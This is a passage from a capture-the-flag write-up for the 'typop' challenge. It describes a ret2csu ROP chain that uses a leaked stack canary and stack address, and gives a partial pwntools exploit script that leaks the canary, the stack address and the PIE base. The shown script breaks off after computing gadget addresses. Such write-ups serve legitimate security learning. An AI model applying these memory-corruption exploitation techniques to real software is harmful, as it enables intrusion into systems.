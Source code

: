 ```
        001014d2 41  5f           POP        R15
        001014d4 c3              RET

```
A final complication arose when I realized that my ROPchain only has space for eight 8-byte addresses, and the address of the pops, the six values to fill them, and the address of the movs collectively add up to eight addresses, plus the six registers get popped again following the comparison, bringing it up to 14 8-byte addresses before I could really continue the chain and call additional arbitrary functions and gadgets. This means that I have to call win when R15  + RBX * 0x8 is called, but there is no pointer to win in the binary by default. My solution was to go back to the initial canary leak, which also leaks a stack address by default. I then modified my payload to stick the win address between the canary and the ROPchain, calculated the offset to that address from the stack leak, and set r15 to that. This lets me call win and print the flag file.

Here is the final python script to pull all of this off:
```
from pwn import *

target = process('./chall')

pid = gdb.attach(target, 'b *getFeedback+70\nb *getFeedback+172\nb *getFeedback+199\ncontinue')

elf = ELF('chall')
libc = ELF('libc-2.31.so')
#target = remote('typop.chal.idek.team', 1337)

print(target.recvuntil(b'complete a survey?'))

target.sendline(b'y')
print(target.recvuntil(b'ctf?'))
payload1 = b'a' * 11
target.send(payload1)

print(target.recvuntil(payload1))

leak = target.recv(7)
canary = u64(b'\x00' + leak)
print(hex(canary))
#Only needed for ret2csu
stack_leak = u64(target.recv(6) + b'\x00' * 2)
print(hex(stack_leak))

payload2 = cyclic(100)
padding = b'a' * 10
payload2 = padding
payload2 += p64(canary)
payload2 += b'a' * 8

payload2 += b'\x42'
target.send(payload2) 

print(target.recvuntil(b'ctf?'))
payload3 = b'a' * 0x1a
target.send(payload3)
print(target.recvuntil(payload3))
leak = target.recv(6)
print(leak)
main_55 = u64(leak + b'\x00' * 2)
pie_base = main_55 - elf.symbols['main'] - 55
pop_rdi = pie_base + 0x00000000000014d3
pop_rsi_r15 = pie_base + 0x00000000000014d1
writable = pie_base + elf.bss()
print(hex(pop_rdi))

```